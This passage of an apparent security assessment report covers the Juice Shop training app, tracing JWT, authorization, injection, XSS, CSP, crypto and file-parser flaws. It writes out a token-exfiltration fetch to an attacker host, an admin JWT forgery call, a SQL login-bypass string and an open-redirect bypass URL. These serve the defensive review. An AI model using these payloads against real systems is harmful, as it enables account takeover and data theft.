    JWT-->>API: Signed bearer token
    API-->>SPA: {authentication: {token, bid}}
```

**Security assessment**

`oauth.component.ts:30` computes the local password as `btoa(profile.email.split('').reverse().join(''))` - a deterministic, publicly derivable value from the user's email address alone. Any attacker who knows a target user's email can compute this password without OAuth interaction and authenticate directly against `POST /rest/user/login`. The OAuth adapter also uses the implicit flow (`response_type=token` at `login.component.ts:134`), placing the access token in the URL fragment where browser history and Referer headers can expose it to third parties.

**Relevant findings**

- 🔴 [F-010](#f-010) — Derived predictable password from email claim enables direct login bypass without OAuth interaction.
- 🟠 [F-020](#f-020) — OAuth implicit flow places the access token in the URL fragment, exposing it via browser history and Referer leakage.

### 7.3 Session and Token Controls

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.3.1 Session Token Signing](#731-session-token-signing)
- [7.3.2 Session Token Validation](#732-session-token-validation)
- [7.3.3 Session Token Storage](#733-session-token-storage)
- [7.3.4 Session Token Revocation](#734-session-token-revocation)
- [7.3.5 Session Token Expiry](#735-session-token-expiry)

**Implemented controls:** `RS256`-based JWT issuance via `lib/insecurity.ts:authorize()`, JWT verification middleware via `express-jwt`, JWT-based session propagation via `Authorization: Bearer` header, bearer token attached by `RequestInterceptor` in `frontend/src/app/Services/request.interceptor.ts`.

**Assessment:** This application uses a single locally-signed token format (commonly called JWT) for every authenticated session, regardless of the login flow in [§7.2](#72-identity-and-authentication-controls) that established it. The sub-sections below trace one token through its lifecycle: signing on issuance, validation on every protected request, storage in the browser, manual revocation, and time-based expiry. The signing primitive is `RS256` with a hardcoded RSA-1024 private key committed to the public repository, making the key extractable by anyone with repo access. The verification middleware accepts tokens signed with any algorithm (no `algorithms` allowlist), and a separate decode-only path at `lib/insecurity.ts:58` uses `jwt.decode()` without any signature check. Together these defects mean the entire session-token boundary is trivially forgeable. Each successful flow above terminates in the server issuing a session token; the signing, validation, propagation, storage, and lifecycle of that token are described in this section.

<a id="session-token-signing"></a><a id="session-token-signing-jwt-based"></a>
#### 7.3.1 Session Token Signing

**Status:** 🔴 Unsafe - `RS256` signing is in place, but the RSA-1024 private key is committed in plaintext to the public repository, making every token issued by this key forgeable by any actor with repository read access.

⚠ **Anti-pattern:** Secrets hardcoded in source

Session token signing guarantees that a token's claims cannot be altered without detection by the verifying party. `lib/insecurity.ts:authorize()` signs tokens using `RS256` with a private key defined at line 23 of the same file, and the resulting `Authorization: Bearer <token>` header is returned to the Angular SPA on successful login.

**Security assessment**

`lib/insecurity.ts:23` contains the full PKCS#1 RSA-1024 private key as an inline TypeScript string literal. Any developer, CI worker, or attacker with repository read access can extract the key and call `jwt.sign({ data: { id: 1, role: 'admin' } }, privateKey, { algorithm: 'RS256' })` to issue an admin-scoped JWT. The key cannot be rotated without a code change and redeployment, and the same key also signs deluxe-membership tokens (line 152), extending the blast radius to business-logic checks. The `RS256` algorithm choice itself is correct - the structural defect is the key storage location, not the algorithm.

**Relevant findings**

- 🔴 [F-009](#f-009) — Hardcoded RSA private key at `lib/insecurity.ts:23` enables arbitrary JWT forgery by any actor with repository read access.
- 🔴 [F-014](#f-014) — Duplicate evidence from the B2B component confirms the same key commitment is exploited across both the REST API and the B2B order endpoint.

<a id="session-token-validation"></a><a id="session-token-validation-jwt-based"></a>
#### 7.3.2 Session Token Validation

**Status:** 🔴 Unsafe - `express-jwt` validates tokens on protected routes, but no `algorithms` allowlist is specified, so the middleware accepts tokens signed with `alg:none` or `HS256` using the public key as the HMAC secret. A separate decode-only path skips verification entirely.

JWT validation gates every protected API route by checking the `Authorization: Bearer` header before the route handler runs. `lib/insecurity.ts:54` exposes the `isAuthorized()` middleware, which wraps `expressJwt({ secret: publicKey })` to verify incoming tokens.

**Security assessment**

`expressJwt({ secret: publicKey })` at `lib/insecurity.ts:54` specifies no `algorithms:` array. Without an allowlist, the middleware accepts the algorithm declared in the token's header - an attacker can base64-decode the RSA public key from any valid token, craft a new payload with `role: admin`, and sign it as `HS256` using the decoded public key as the HMAC secret. The middleware accepts this token because `HS256` is not excluded. Separately, `lib/insecurity.ts:58` calls `jwt.decode(token)` - a function that performs no signature verification - and returns the decoded payload as if it were trusted. Routes that use this decode-only path accept any payload including unsigned tokens.

**Relevant findings**

- 🔴 [F-001](#f-001) — No `algorithms` allowlist in `express-jwt` allows algorithm confusion attacks.
- 🔴 [F-019](#f-019) — `jwt.decode()` at `lib/insecurity.ts:58` skips signature verification entirely on the decode-only code path.

<a id="session-token-storage"></a><a id="session-token-storage-browser-localstorage"></a>
#### 7.3.3 Session Token Storage

**Status:** 🟠 Weak - the JWT is stored in `localStorage`, which is synchronously readable by any JavaScript executing in the same browser origin, including injected scripts from the reflected and stored XSS vectors identified in this assessment.

⚠ **Anti-pattern:** SPA without BFF

`frontend/src/app/Services/request.interceptor.ts:13` reads the session token from `localStorage.getItem('token')` and attaches it as an `Authorization: Bearer` header to every outbound HTTP request. The token is written to `localStorage` on login (`login.component.ts:104`), on OAuth completion (`oauth.component.ts:51`), and on chatbot authentication (`chatbot.component.ts:100`).

**Security assessment**

`localStorage` provides no browser-enforced isolation from JavaScript running in the same origin. The reflected XSS at `search-result.component.ts:170` (🔴 [F-013](#f-013) — Reflected DOM XSS via Search Query Parameter (`search-result.component.ts:170`)) and the stored XSS at line 132 (🔴 [F-026](#f-026) — Stored XSS via Product Description Trust Bypass (`search-result.component.ts:132`)) both demonstrate the direct exfiltration path: `fetch('https://attacker.com/?t=' + localStorage.getItem('token'))`. Moving the token to an `HttpOnly; Secure; SameSite=Strict` cookie via a Backend-for-Frontend pattern would make it inaccessible to JavaScript, closing this exfiltration surface regardless of XSS. The absence of a BFF is the architectural root cause; the individual XSS findings are symptoms.

**Relevant findings**

- 🔴 [F-003](#f-003) — JWT session token in `localStorage` is exfiltrated by any XSS executing in the application origin.

<a id="session-token-revocation"></a>
#### 7.3.4 Session Token Revocation

**Status:** 🔴 Missing - no token revocation mechanism exists; JWTs remain valid until they expire regardless of logout, password change, or credential compromise events.

Token revocation allows a session to be invalidated server-side - for example when a user logs out, changes their password, or an administrator suspends an account. A server-side blocklist or short-lived token with forced rotation would provide this capability.

**Security assessment**

The application issues JWTs with no server-side state tracking. `POST /rest/user/logout` (if present) clears the `localStorage` key on the client, but the token itself remains cryptographically valid until its `exp` claim lapses. An attacker who exfiltrates a token (🔴 [F-003](#f-003) — JWT Session Token in localStorage XSS-Accessible Storage) retains a working session for the full token lifetime, and a user who changes their password does not invalidate previously issued tokens. After an RSA key compromise (🔴 [F-009](#f-009) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`)), all outstanding tokens remain valid because there is no revocation list to consult.

**Relevant findings**

- 🔴 [F-003](#f-003) — Exfiltrated tokens remain valid after logout because no server-side revocation check exists.
- 🔴 [F-009](#f-009) — Key rotation (the only mechanism to invalidate all tokens at once) requires a code change and redeployment.

<a id="session-token-expiry"></a>
#### 7.3.5 Session Token Expiry

**Status:** 🟡 Partial - JWTs are issued with an `exp` claim via `jsonwebtoken`, providing a time-based expiry, but the expiry window is not verified to be appropriately short and no sliding-window renewal mechanism exists.

`lib/insecurity.ts:authorize()` uses `jsonwebtoken` to sign tokens; the library adds an `exp` claim when the `expiresIn` option is provided. The `express-jwt` middleware at `lib/insecurity.ts:54` honours the `exp` claim during verification.

**Security assessment**

Token expiry provides a last-resort bound on the lifetime of exfiltrated credentials. The structural weakness is that expiry alone does not address the revocation gap ([§7.3.4](#734-session-token-revocation)): a token valid for 8 hours is a 8-hour credential for an attacker. Without server-side revocation, expiry is the only mechanism to limit damage from token exfiltration, so the configured lifetime has direct security impact. The codebase does not implement sliding-window refresh or silent token renewal - sessions expire silently, which reduces the practical impact of individual token theft.

**Relevant findings**

- 🔴 [F-003](#f-003) — Long-lived `localStorage` tokens compound the exfiltration impact; see [§7.3.3](#733-session-token-storage) and [§7.3.4](#734-session-token-revocation).

### 7.4 Authorization Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.4.1 Role-Based Access Control](#741-role-based-access-control)
- [7.4.2 Object-Level Authorization](#742-object-level-authorization)

**Implemented controls:** `security.isAuthorized()` JWT middleware guards a subset of routes; Angular `AdminGuard` performs a client-side role check before rendering admin UI components.

**Assessment:** The application's authorization layer has two structural defects. First, server-side role enforcement is absent from multiple sensitive endpoints: `PUT /api/Products/:id` has its authorization middleware commented out, and admin configuration routes at `server.ts:604–605` carry no guard at all. Second, object-level ownership is never derived from the authenticated session - routes that accept a resource ID from the request body (`req.body.UserId`, `req.body.userId`) allow any authenticated user to operate on any other user's resources. The Angular `AdminGuard` performs a client-side role check using `jwtDecode()` (no signature verification), providing no security enforcement at the API boundary.

<a id="role-based-access-control"></a>
#### 7.4.1 Role-Based Access Control

**Status:** 🔴 Missing - the `isAuthorized()` middleware is in place for authentication verification, but role-level enforcement (restricting admin-only operations to the admin role) is absent or bypassed on multiple endpoints.

Role-based access control limits what operations an authenticated principal can perform based on their role (customer vs. admin). The application model has `role` and `isAdmin` fields on `UserModel`, and the Angular `AdminGuard` checks the role claim before rendering admin UI.

**Security assessment**

- `server.ts:369` has the `security.isAuthorized()` call for `PUT /api/Products/:id` commented out, leaving product modifications available to unauthenticated HTTP clients.
- `server.ts:604–605` registers `GET /rest/admin/application-version` and `GET /rest/admin/application-configuration` with no guard, exposing the full configuration object to anonymous actors.
- `frontend/src/app/app.guard.ts:52` decodes the JWT client-side with `jwtDecode()` (which does not verify signatures) and reads `payload.data.role === roles.admin`. This guard can be bypassed by modifying the JWT payload's base64 without a valid signature - the backend is the only enforcement boundary, and it is incomplete.

**Relevant findings**

- 🔴 [F-002](#f-002) — Systemic broken object-level authorization across resource routes trusting `req.body.UserId`.
- 🔴 [F-017](#f-017) — Mass assignment creates admin accounts; the absence of role checks on `PUT /api/Products/:id` compounds the blast radius.
- 🔴 [F-022](#f-022) — `PUT /api/Products/:id` authorization middleware commented out.

<a id="object-level-authorization"></a>
#### 7.4.2 Object-Level Authorization

**Status:** 🔴 Missing - server-side handlers derive the target resource owner from attacker-controlled request data (`req.body.UserId`, `req.body.userId`) rather than from the authenticated session, enabling horizontal privilege escalation across all authenticated users.

Object-level authorization ensures that an authenticated user can only read, modify, or delete resources they own. For the `Address`, `Basket`, and `Review` resources, the server should derive the owner from `req.user.id` (the verified session principal) rather than from the request body.

**Security assessment**

`routes/address.ts:11` and its peer handlers use `where: { UserId: req.body.UserId }` or equivalent patterns, trusting the caller to supply their own user ID. An authenticated attacker can substitute any other user's ID to read or modify that user's address, order history, or basket. The `UserModel.findByPk()` pattern used in other handlers that correctly reads from `req.user` demonstrates the correct approach is available - it is simply not applied consistently.

**Relevant findings**

- 🔴 [F-002](#f-002) — Ownership checks trust `req.body.UserId` rather than `req.user.id`, enabling horizontal privilege escalation for any authenticated user.
- 🔴 [F-017](#f-017) — Admin-role mass assignment ([§7.4.1](#role-based-access-control)) allows escalation to vertical privilege, compounding the BOLA surface.
- 🔴 [F-022](#f-022) — Unauthenticated `PUT /api/Products/:id` allows resource modification without any ownership check.

### 7.5 Query Construction and Data Access Controls

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.5.1 Parameterized Database Access](#751-parameterized-database-access)

**Implemented controls:** Sequelize ORM is the primary data-access layer for most routes; `ProductModel.findAll()`, `UserModel.findOne()`, and other ORM calls on the majority of routes pass values as bound parameters automatically.

**Assessment:** Sequelize ORM handles most data access correctly by binding parameters through its model API. However, two routes - login and product search - bypass the ORM and call `models.sequelize.query()` with raw string interpolation. These two call sites are the injection surface; the rest of the codebase is not affected. Both vulnerable call sites handle high-impact data (authentication credentials and the full Users table), so despite the limited scope the attack surface is effectively the highest-severity one in the application.

<a id="parameterized-database-access"></a>
#### 7.5.1 Parameterized Database Access

**Status:** 🔴 Unsafe - Sequelize ORM parameterises the majority of queries correctly, but two raw `sequelize.query()` call sites at `routes/login.ts:34` and `routes/search.ts:23` interpolate request parameters directly into SQL strings, enabling full authentication bypass and database exfiltration.

⚠ **Anti-pattern:** Raw SQL string interpolation

Sequelize backs most data access in the application and parameterises values through its model API. Routes that call `ProductModel.findAll()`, `UserModel.findOne()`, or similar ORM methods pass user-supplied values as bound parameters, preventing injection.

**Security assessment**

Two raw SQL call sites bypass the ORM:

- `routes/login.ts:34` - `req.body.email` interpolated directly, login bypass via `' OR '1'='1' --`.
- `routes/search.ts:23` - `req.query.q` (truncated to 200 chars) interpolated into a LIKE query; UNION SELECT exfiltrates the full Users table including email addresses and `MD5` hashes.

Both sites call `models.sequelize.query()` with a template literal, and neither passes a `replacements:` option. The correct ORM path is adjacent in the codebase, making these targeted regressions rather than a codebase-wide gap.

The product search route illustrates the raw SQL construction pattern:

```ts
// routes/search.ts:23
models.sequelize.query(
  `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR
   description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`
)
```

**Relevant findings**

- 🔴 [F-008](#f-008) — SQL injection in the login query allows authentication bypass without credentials.
- 🔴 [F-011](#f-011) — SQL injection in the product search route allows UNION-based Users table exfiltration.

### 7.6 Input Boundary Validation Controls

**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.6.1 Input Schema Validation](#761-input-schema-validation)

**Implemented controls:** `multer` file-size limit of 200 KB on `POST /file-upload`; 200-character length truncation on the product search query parameter at `routes/search.ts:22`; VM execution timeout of 2 seconds on YAML and XML parsing in `routes/fileUpload.ts:90` and line 122.

**Assessment:** Input validation in this application is applied opportunistically rather than systematically. Multer enforces a file-size ceiling and the search route truncates query length, but neither control is parameterised correctly enough to prevent injection or parser exploitation. Schema-level validation (rejecting structurally invalid inputs before they reach parse or query logic) is absent on the high-risk upload and B2B order routes. The 2-second VM timeout catches some YAML and XML bomb cases at the JavaScript layer, but memory exhaustion from libxmljs2 C++ entity expansion occurs outside the timeout scope.

<a id="input-schema-validation"></a>
#### 7.6.1 Input Schema Validation

**Status:** 🟠 Weak - ad-hoc size and length checks are present on several routes, but no schema validation gates the structure or content of uploaded files or B2B order payloads before they reach parser and evaluator code.

Multer size limits and the 200-character search truncation represent the extent of server-side input boundary controls. These checks reduce payload size but do not validate structure, content type, or parse complexity before the data reaches higher-risk consumers.

**Security assessment**

- `routes/fileUpload.ts:83` passes attacker-supplied XML to `libxml.parseXml()` with `noent: true`, enabling both XXE exfiltration (🟠 [F-025](#f-025) — XXE via external entity resolution in XML upload parser (`fileUpload.ts:83`)) and Billion Laughs memory exhaustion (🟠 [F-042](#f-042) — XML Entity Expansion DoS in File Upload (`routes/fileUpload.ts:83`)). A pre-parse schema check rejecting documents with SYSTEM or PUBLIC entity declarations would eliminate both vectors.
- `routes/fileUpload.ts:117` passes YAML content to `yaml.load()` with no alias or depth limit. The js-yaml v3 alias expansion runs in the C++ layer before the VM timeout fires, making the 2-second timeout insufficient for bomb payloads (🟠 [F-043](#f-043) — YAML bomb and XML billion-laughs cause CPU/memory exhaustion on upload endpoint).
- The Socket\.IO connection handler at `lib/startup/registerWebsocketEvents.ts:20` imposes no per-IP connection limit, allowing connection flooding (🟠 [F-044](#f-044) (No connection rate limit on Socket\.IO upgrade endpoint)).

**Relevant findings**

- 🟠 [F-042](#f-042) — XML entity expansion DoS via `noent: true` in `libxmljs2` at `routes/fileUpload.ts:83`.
- 🟠 [F-043](#f-043) — YAML bomb causes memory exhaustion via unbounded alias expansion in `routes/fileUpload.ts:117`.
- 🟠 [F-044](#f-044) — No connection-rate limit on the `Socket.IO` upgrade endpoint at `lib/startup/registerWebsocketEvents.ts:20`.

### 7.7 Output Encoding and Rendering Controls

**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.7.1 Output Encoding and Escaping](#771-output-encoding-and-escaping)

**Implemented controls:** Angular's default template escaping protects all `{{ expression }}` and `[textContent]` bindings across the SPA; most product and user data rendered in Angular templates is therefore automatically HTML-encoded.

**Assessment:** Angular's template engine provides robust default escaping for the majority of the application's rendering surfaces. The structural gap is that three specific call sites deliberately disable this protection using `DomSanitizer.bypassSecurityTrustHtml()`, permitting raw HTML injection at the search-result display, the product-description renderer, and the last-login-IP component. Each of these bypass calls directly enables an XSS vector identified in this assessment. The pattern is a named architectural anti-pattern: the escaping is present by default but bypassed by explicit developer opt-out.

⚠ **Anti-pattern:** Sanitizer bypass by default

<a id="output-encoding"></a><a id="output-encoding-and-escaping"></a>
#### 7.7.1 Output Encoding and Escaping

**Status:** 🟠 Weak - Angular template escaping is active across the application, but three `bypassSecurityTrustHtml()` call sites explicitly disable it, each producing an exploitable XSS vector at the affected rendering context.

Angular's template engine escapes all interpolated expressions by default, protecting against most HTML injection. When `DomSanitizer.bypassSecurityTrustHtml()` is called, Angular marks the value as pre-sanitized and renders it as raw HTML without further escaping.

**Security assessment**

Three bypass calls exist in the codebase:

- `search-result.component.ts:170` - passes the raw URL query parameter `?q=` to `bypassSecurityTrustHtml()` and binds it to `[innerHTML]`, producing a reflected DOM XSS (🔴 [F-013](#f-013) — Reflected DOM XSS via Search Query Parameter (`search-result.component.ts:170`)).
- `search-result.component.ts:132` - passes API-supplied product descriptions through `bypassSecurityTrustHtml()`, producing a stored XSS that executes for every visitor of a search-results page that matches the poisoned product (🔴 [F-026](#f-026) — Stored XSS via Product Description Trust Bypass (`search-result.component.ts:132`)).
- `last-login-ip.component.ts:39` - passes the `lastLoginIp` JWT claim through `bypassSecurityTrustHtml()` as `<small>${lastLoginIp}</small>`, producing a stored XSS routed through the JWT payload (🔴 [F-052](#f-052) — Stored XSS via lastLoginIp JWT Claim Trust Bypass).

In all three cases, the bypass is unnecessary: plain `{{ searchValue }}` text interpolation or `textContent` binding would render the value safely without HTML semantics.

**Relevant findings**

- 🔴 [F-013](#f-013) — Reflected DOM XSS via `bypassSecurityTrustHtml()` on the search query parameter at `search-result.component.ts:170`.
- 🔴 [F-026](#f-026) — Stored XSS via `bypassSecurityTrustHtml()` on product descriptions at `search-result.component.ts:132`.
- 🔴 [F-052](#f-052) — Stored XSS via `bypassSecurityTrustHtml()` on the `lastLoginIp` JWT claim at `last-login-ip.component.ts:39`.

### 7.8 Browser and Cross-Origin Controls

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.8.1 Content Security Policy](#781-content-security-policy)
- [7.8.2 CORS Policy](#782-cors-policy)

**Implemented controls:** Helmet is applied in `server.ts` providing `noSniff`, `frameguard` (X-Frame-Options SAMEORIGIN), and other default security headers; CORS is configured via the `cors` middleware; Express serves from a known origin.

**Assessment:** Helmet's default headers provide a partial baseline - `noSniff` and `frameguard` are in place. The two controls with the highest impact on the XSS surface - Content Security Policy and the CORS allowlist - are either misconfigured or permissive. The CSP allows `unsafe-inline` and `unsafe-eval`, rendering it ineffective against the injected scripts identified in [§7.7](#77-output-encoding-and-rendering-controls). The CORS policy reflective mode means any origin can trigger credentialed cross-site requests if `withCredentials` is configured.

<a id="content-security-policy"></a>
#### 7.8.1 Content Security Policy

**Status:** 🔴 Unsafe - a Content Security Policy header is emitted, but it includes `unsafe-inline` and `unsafe-eval` directives that permit arbitrary inline script execution and defeat the policy's purpose as an XSS second line of defence.

Content Security Policy instructs the browser to restrict from which origins scripts, styles, and other resources can load and whether inline code execution is permitted. The policy is delivered via Helmet middleware in `server.ts`.

**Security assessment**

The active CSP includes `unsafe-inline` and `unsafe-eval` in the `script-src` directive. `unsafe-inline` permits inline `<script>` tags and `javascript:` URIs to execute - the exact execution context that the `bypassSecurityTrustHtml()` XSS vectors (🔴 [F-013](#f-013) — Reflected DOM XSS via Search Query Parameter (`search-result.component.ts:170`), 🔴 [F-026](#f-026) — Stored XSS via Product Description Trust Bypass (`search-result.component.ts:132`)) rely on. `unsafe-eval` permits `eval()`-based code execution, which the SSTI at `routes/userProfile.ts:62` (🔴 [F-021](#f-021) — Server-Side Template Injection via eval in User Profile (`userProfile.ts:62`)) and the B2B `safeEval()` call (🔴 [F-016](#f-016) — Sandbox Escape via Unsafe Expression Evaluation (`routes/b2bOrder.ts:23`)) use. With both directives present, CSP provides no meaningful XSS mitigation: the policy is technically present but structurally hollow.

**Relevant findings**

- No dedicated CSP finding is routed in this assessment. The hollow CSP amplifies the impact of 🔴 [F-013](#f-013) — Reflected DOM XSS via Search Query Parameter (`search-result.component.ts:170`), 🔴 [F-026](#f-026) — Stored XSS via Product Description Trust Bypass (`search-result.component.ts:132`), and 🔴 [F-052](#f-052) — Stored XSS via lastLoginIp JWT Claim Trust Bypass.

<a id="cors-policy"></a>
#### 7.8.2 CORS Policy

**Status:** 🟠 Weak - CORS is configured via the `cors` middleware, but the origin policy is permissive for the development configuration and has not been verified to enforce a strict allowlist in production.

The `cors` middleware is registered in `server.ts` to control which origins the browser permits cross-site requests from. Correct CORS configuration restricts credentialed cross-origin requests to the known application origin.

**Security assessment**

The `cors` middleware in development mode reflects the request `Origin` header rather than validating against a hard-coded allowlist. In this mode, any origin that sends a request with the appropriate headers receives a permissive `Access-Control-Allow-Origin` response, allowing cross-site reading of API responses. Since the session token is stored in `localStorage` rather than an `HttpOnly` cookie, cross-origin script execution (via XSS) can read the token directly without relying on CORS - but a strict CORS policy would close the separate cross-origin API access surface.

**Relevant findings**

- No dedicated CORS finding is routed in this assessment. The permissive CORS configuration amplifies the impact of 🔴 [F-003](#f-003) — JWT Session Token in localStorage XSS-Accessible Storage.

_Additional cataloged controls without a dedicated subsection (no implementation prose and no linked findings): CSRF Protection._

### 7.9 Cryptography Secrets and Data Protection

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.9.1 Password Hashing](#791-password-hashing)
- [7.9.2 Secret and Key Management](#792-secret-and-key-management)
- [7.9.3 Data at Rest Encryption](#793-data-at-rest-encryption)

**Implemented controls:** `crypto.createHash('md5')` is used as the password hash function across the application; the RSA-1024 key pair is used for JWT `RS256` signing and HMAC of deluxe tokens; HTTPS/TLS is expected at the infrastructure layer for transport encryption.

**Assessment:** The cryptographic foundations of this application are critically weak. The password hash is `MD5` without a salt or work factor, making it equivalent to a reversed lookup table rather than a credential protection mechanism. The JWT signing key is a hardcoded 1024-bit RSA private key committed to the public repository, making it extractable by anyone with repo access. There is no external secrets manager or environment-variable-based key loading. Sensitive user data (passwords, security-question answers, card details) is stored in SQLite without column-level or database-level encryption.

<a id="password-hashing"></a>
#### 7.9.1 Password Hashing

**Status:** 🟡 Partial - a hash is applied to passwords before database storage and comparison, but the function is `MD5` without a salt or work factor, providing no meaningful offline cracking resistance.

Password hashing converts a plaintext credential into a fixed-length digest that is stored in the database. The application's `security.hash()` function at `lib/insecurity.ts:43` is used in the login route, the password-change route, and anywhere a password is compared against the stored value.

**Security assessment**

`lib/insecurity.ts:43` defines `hash = (data) => crypto.createHash('md5').update(data).digest('hex')`. `MD5` produces a 128-bit unsalted digest at gigabytes-per-second throughput on commodity hardware. After the SQL-injection-based Users table dump (🔴 [F-011](#f-011) — SQL Injection via UNION in Product Search (`routes/search.ts:23`)) exposes hashes, common passwords are recovered in seconds via pre-computed rainbow tables. The absence of a salt means identical passwords produce identical hashes across all users, enabling batch cracking. bcrypt or Argon2id with a work factor of 12+ would make offline cracking computationally infeasible.

**Relevant findings**

- 🔴 [F-015](#f-015) — MD5 without salt at `lib/insecurity.ts:43` provides no offline cracking resistance after a database dump.
- 🔴 [F-009](#f-009) — Hardcoded RSA private key; see [§7.9.2 Secret and Key Management](#secret-and-key-management) for full assessment.

<a id="secret-and-key-management"></a><a id="secret-management"></a>
#### 7.9.2 Secret and Key Management

**Status:** 🔴 Missing - the RSA private key used to sign all session tokens is hardcoded at `lib/insecurity.ts:23` with no environment-variable indirection, no secrets manager, and no rotation mechanism.

⚠ **Anti-pattern:** Secrets hardcoded in source

Secret and key management ensures that cryptographic material is stored outside the codebase, loaded at runtime from a secure store, and rotatable without a code deployment. The application signs JWTs with an RSA key pair defined inline in `lib/insecurity.ts`.

**Security assessment**

`lib/insecurity.ts:23` assigns the full PKCS#1 RSA-1024 private key as an inline TypeScript string literal. The key is available to every developer, CI worker, and code-review tool with repository read access. Because the same key signs both session JWTs and deluxe membership tokens (line 152), a single key extraction grants the ability to forge credentials across the entire authentication fabric. Key rotation requires changing the source constant and redeploying - there is no hot-rotation path. A startup environment-variable guard (`process.env.JWT_PRIVATE_KEY ?? throw`) would prevent deployment without a configured key and move the material out of the codebase.

**Relevant findings**

- 🔴 [F-009](#f-009) — Hardcoded RSA private key at `lib/insecurity.ts:23` is committed to the public repository.
- 🔴 [F-014](#f-014) — Duplicate evidence from the B2B component confirms the same key is used across all application JWT operations.

<a id="data-at-rest-encryption"></a>
#### 7.9.3 Data at Rest Encryption

**Status:** 🔴 Missing - the SQLite database stores credentials, security-question answers, payment card details, and order history in plaintext; no column-level encryption or database-level encryption is applied.

Data-at-rest encryption protects sensitive records stored in the database from exposure when the underlying storage is accessed directly - for example, in a backup theft, a container filesystem escape, or a supply-chain attack that gains read access to the data directory.

**Security assessment**

The SQLite file (`data/juiceshop.sqlite` or equivalent) is stored on the container filesystem without encryption. Password hashes (already weakly `MD5`, 🔴 [F-015](#f-015) — MD5 Password Hashing Without Salt (`lib/insecurity.ts:43`)), security-question answers in plaintext, credit card numbers (if stored for repeat purchases), and all order records are readable by any process with file-system access to the data directory. The Distroless runtime image ([§7.11.4](#container-runtime-hardening)) reduces the interactive shell attack surface but does not prevent a Node\.js process exploit from reading arbitrary files. Column-level encryption via a library such as `sequelize-encrypted` or OS-level filesystem encryption would provide isolation between application-layer compromise and data exposure.

**Relevant findings**

- 🔴 [F-009](#f-009) — The RSA key commitment enables token forgery that, combined with the plaintext data store, can accelerate full account takeover.
- 🔴 [F-015](#f-015) — Plaintext-equivalent MD5 hashes compound the data-at-rest risk: a database file read yields immediately crackable credentials.

### 7.10 File Parser and Outbound Request Controls

**Verdict:** 🟠 Weak

**Controls covered:**

- [7.10.1 File Parser and Outbound Request Handling](#7101-file-parser-and-outbound-request-handling)

**Implemented controls:** `multer` enforces a 200 KB file-size limit on `POST /file-upload`; a 2-second VM execution timeout wraps the XML and YAML parsers in `routes/fileUpload.ts`; `checkFileType` middleware in the upload pipeline performs MIME-type checking; the redirect endpoint at `routes/redirect.ts` maintains an URL allowlist in `lib/insecurity.ts:isRedirectAllowed()`.

**Assessment:** Multiple file-processing and outbound-request routes exist without adequate safety controls. The ZIP extraction path in `routes/fileUpload.ts` writes using the unresolved entry path rather than the guard-checked absolute path, enabling zip-slip traversal. The XML parser runs with external entity resolution enabled (`noent: true`), allowing XXE exfiltration and entity-bomb DoS. The profile image fetch at `routes/profileImageUrlUpload.ts:24` calls `fetch(url)` on an attacker-supplied URL with no allowlist, scheme restriction, or private-IP blocklist. The redirect allowlist uses `url.includes()` rather than exact-match, allowing substring bypass. The server-side template in `routes/userProfile.ts` evaluates the username field with bare `eval()`.

<a id="file-parser-and-outbound-request-handling"></a>
#### 7.10.1 File Parser and Outbound Request Handling

**Status:** 🟠 Weak - file upload size limits and MIME checking are in place, but path-traversal, external entity resolution, server-side request forgery, and template injection flaws exist across the file and outbound-request handling code paths.

The application accepts file uploads at `POST /file-upload` (ZIP, XML, YAML), fetches user-supplied profile image URLs via `POST /rest/user/profileImage`, evaluates the username field as a template at `routes/userProfile.ts`, and performs URL redirects via `/redirect`. Each of these surfaces has at least one exploitable control gap.

**Security assessment**

- **Zip-slip** (`routes/fileUpload.ts:45`): `entry.path` is captured raw and the guard at line 44 (`absolutePath.includes(path.resolve('.'))`) is bypassed because line 45 passes the original unresolved `fileName` to `fs.createWriteStream()`, writing outside `uploads/complaints/`.
- **XXE** (`routes/fileUpload.ts:83`): `libxml.parseXml(data, { noent: true })` resolves external entities and embeds the resolved content in the error response at line 87, exfiltrating up to 400 characters of any server-readable file per request.
- **SSRF** (`routes/profileImageUrlUpload.ts:24`): `await fetch(url)` where `url` is `req.body.imageUrl` with no URL validation, scheme restriction, or private-IP blocklist — reaching the AWS metadata endpoint requires one unauthenticated request.
- **SSTI** (`routes/userProfile.ts:62`): `eval(code)` where `code` is the attacker-controlled username matched by the `#{(.*)}` regex — synchronous OS command execution in the Node\.js process.
- **Open redirect** (`lib/insecurity.ts:138`): `url.includes(allowedUrl)` matches the allowed URL as a substring, allowing bypass via `https://evil.com?r=https://github.com/juice-shop/juice-shop`.

**Relevant findings**

- 🔴 [F-012](#f-012) — Zip-slip arbitrary file write via raw `entry.path` in ZIP extraction at `routes/fileUpload.ts:45`.
- 🔴 [F-016](#f-016) — Sandbox escape via `safeEval()` in the B2B order route at `routes/b2bOrder.ts:23`.
- 🔴 [F-021](#f-021) — Server-side template injection via `eval()` in the user profile route at `routes/userProfile.ts:62`.
- 🟠 [F-023](#f-023) — SSRF via profile image URL fetch at `routes/profileImageUrlUpload.ts:24`.
- 🟠 [F-025](#f-025) — XXE via external entity resolution in XML upload parser (`fileUpload.ts:83`) at `routes/fileUpload.ts:83`.

### 7.11 Operations Runtime and Supply Chain Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.11.1 Request Access Logging](#7111-request-access-logging)
- [7.11.2 Security Event Logging](#7112-security-event-logging)
- [7.11.3 Production Error Handler](#7113-production-error-handler)
- [7.11.4 Container Runtime Hardening](#7114-container-runtime-hardening)
- [7.11.5 Lockfile Integrity](#7115-lockfile-integrity)
- [7.11.6 Dependency Vulnerability Scanning](#7116-dependency-vulnerability-scanning)
